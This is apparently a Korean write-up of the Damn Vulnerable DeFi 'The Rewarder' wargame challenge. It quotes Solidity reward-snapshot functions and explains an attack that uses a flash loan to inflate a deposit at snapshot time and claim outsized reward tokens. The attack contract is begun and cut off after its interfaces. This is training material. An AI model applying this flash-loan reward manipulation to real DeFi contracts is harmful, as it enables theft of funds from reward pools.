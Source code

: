 ```solidity
    function _recordSnapshot() private {
        lastSnapshotIdForRewards = accToken.snapshot();
        lastRecordedSnapshotTimestamp = block.timestamp;
        roundNumber++;
    }

    function _hasRetrievedReward(address account) private view returns (bool) {
        return (
            lastRewardTimestamps[account] >= lastRecordedSnapshotTimestamp &&
            lastRewardTimestamps[account] <= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION
        );
    }

    function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
```

recordSnapshot은 accToken을 스냅샷을 찍고 이 스냅샷찍은 시간을 저장한 후 라운드를 증가시킨다.

hasRetrievedReward는 전달받은 account에 매핑된 마지막으로 보상 받은 시간이 마지막으로 스냅샷찍은 이후이고 마지막으로 보상 받은 시점이 마지막으로 스냅샷 찍은 시점 + 5일 이내인지 확인한다.

즉 이번 라운드에서 보상을 받았는지를 확인하는 것이다. 만약 보상을 받았다면 true가 반환되어 distributeRewards함수에서 리워드 토큰을 받는 조건을 충족하지 않아 보상을 받지 못하게 된다.

isNewRewardsRound 함수는 현재 블록의 타임스탬프가 기존 마지막으로 스냅샷 찍은 시점에서 라운드 주기인 5일을 지났는지 반환해준다. 

즉 이 컨트랙트에서 입금하고 리워드 토큰을 받는 과정은 다음과 같이 이루어진다.

1. msg.sender가 DamnValuableToken을 이 컨트랙트에 입금한다.
2. 새로운 스냅샷이 찍히는 시점이라면 (기존 스냅샷 시기+5일) 스냅샷을 찍는다. (선택)
3. 기존 스냅샷 때의 총공급량 대비 msg.sender가 입금한 양을 계산하여 리워드를 산정한다.
4. msg.sender가 현재 라운드에 리워드를 받지 않았다면 리워드 토큰을 제공해준다.

다른 사용자가 공급해놓은 총 공급량대비 내가 공급한(입금한)양이 압도적으로 많다면 리워드 토큰을 압도적으로 많이 분배 받을 수 있다.

이를 이용해서 공격은 다음과 같이 설계하면 된다.

1. 대출 풀에서 많은양의 DamnValuableToken을 대출받는다.
2. 이를 스냅샷이 찍히는 타이밍에 맞추어 TheRewarderPool에 deposit하여 스냅샷을 찍히고 리워드 토큰을 받는다.
3. TheRewarderPool에 deposit했던 양을 전부 withdraw로 출금한 후 대출 풀에서 빌린 DamnValuableToken을 갚는다.
4. 내 돈을 들이지 않고 많은 양의 리워드 토큰을 얻게 된다.

# 공격

컨트랙트를 공격 설계한대로 작성하자.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./RewardToken.sol";
import "../DamnValuableToken.sol";
import "./AccountingToken.sol";
import "@openzeppelin/contracts/utils/Address.sol";

interface ITheRewarderPool{
    function deposit(uint256 amountToDeposit) external ;
    function withdraw(uint256 amountToWithdraw) external;
}
interface IFlashLoanPool{
     function flashLoan(uint256 amount) external ;
}

contract attack{
```
